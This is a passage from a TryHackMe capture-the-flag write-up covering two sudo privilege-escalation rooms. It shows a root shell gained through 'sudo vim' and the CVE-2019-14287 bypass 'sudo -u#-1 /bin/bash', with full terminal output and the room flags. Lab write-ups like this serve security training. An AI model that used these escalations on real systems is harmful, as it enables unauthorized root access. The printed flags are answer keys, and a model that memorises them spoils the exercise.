 16. What's the root flag? - **W3ll d0n3. You made it!**
~~~bash
$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
$ sudo vim -c ':!/bin/sh'

# id     
uid=0(root) gid=0(root) groups=0(root)
# ls
user.txt
# cat user.txt
G00d j0b, keep up!
# cd /root
# ls
root.txt
# cat root.txt
W3ll d0n3. You made it!
# 
~~~

### CVE-2019-14287 Overview - Sudo Security Bypass - Tryhackme
[https://www.exploit-db.com/exploits/47502](https://www.exploit-db.com/exploits/47502)  #CVE-2019-14287

- What command are you allowed to run with sudo? - **/bin/bash**
~~~bash
──(kali㉿kali)-[~]
└─$ ssh tryhackme@10.10.61.109 -p 2222
The authenticity of host '[10.10.61.109]:2222 ([10.10.61.109]:2222)' can't be established.
ED25519 key fingerprint is SHA256:4bgDOPxI7PFcv5CMfQYEkO7uBqKjLKhd7zZwmE8uwbQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.61.109]:2222' (ED25519) to the list of known hosts.
tryhackme@10.10.61.109's password: 
Last login: Fri Feb  7 00:14:41 2020 from 192.168.1.151
tryhackme@sudo-privesc:~$ ls
tryhackme@sudo-privesc:~$ sudo -l
[sudo] password for tryhackme: 
sudo: 0l: command not found
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash
~~~

- What is the flag in /root/root.txt? - **THM{l33t_s3cur1ty_bypass}**
~~~bash
tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# id 
uid=0(root) gid=1000(tryhackme) groups=1000(tryhackme)
root@sudo-privesc:~# ls
root@sudo-privesc:~# cd /root
root@sudo-privesc:/root# ls
root.txt
root@sudo-privesc:/root# cat root.txt
THM{l33t_s3cur1ty_bypass}
~~~
